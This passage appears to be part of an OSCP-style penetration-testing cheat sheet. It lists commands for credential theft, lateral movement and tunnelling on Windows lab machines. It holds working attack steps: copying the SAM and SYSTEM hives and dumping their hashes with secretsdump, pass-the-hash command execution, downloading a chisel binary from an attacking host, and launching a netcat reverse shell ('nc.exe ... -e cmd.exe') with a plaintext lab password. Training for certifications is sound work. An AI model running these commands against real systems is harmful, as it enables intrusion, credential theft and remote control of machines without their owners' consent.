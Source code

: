 #### SAM Dump from Windows.old
```bash
# Download files with nxc
nxc mssql <target-IP> -u sql_svc -p <pass> --get-file "c:\windows.old\windows\System32\SYSTEM" ./SYSTEM
nxc mssql <target-IP> -u sql_svc -p <pass> --get-file "c:\windows.old\windows\System32\SAM" ./SAM

# Dump SAM's hashes
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

# Read flag
nxc smb dc01 -u tom_admin -H <hash> -X "type c:\users\administrator\desktop\proof.txt"
```

#### Network Enumeration
```powershell
# List active sockets
netstat -ano

# Check SMB access
nxc smb 192.168.X.X -u <user> -p <pass> --shares
```

#### Port Forwarding
```bash
# Start server on attacking host
./chisel server -p 8000 --reverse

# Transfer binary
wget http://192.168.X.X:8888/chisel.exe -o chisel.exe

# Start client on target (3306 to 6033)
.\chisel.exe client 192.168.X.X:8000 R:6033:127.0.0.1:3306

# Interact from attacking host
mysql -h 127.0.0.1 -P 6033 -u root
```

#### Reverse Port Forward
```bash
# Add listener to MS01 from Kali
[Agent : OSCP\eric.wallows@MS01] » listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:4444

# Upload binary to MS02
nxc mssql ms02 -u sql_svc -p Dolphin1 --put-file 'nc.exe' 'c:\windows\temp\nc.exe'

# Execute binary from MS02 pointing to MS01
nxc mssql ms02 -u sql_svc -p Dolphin1 -x 'c:\windows\temp\nc.exe 10.10.63.147 4444 -e cmd.exe'
```

## 🖥️ STANDALONE MACHINES

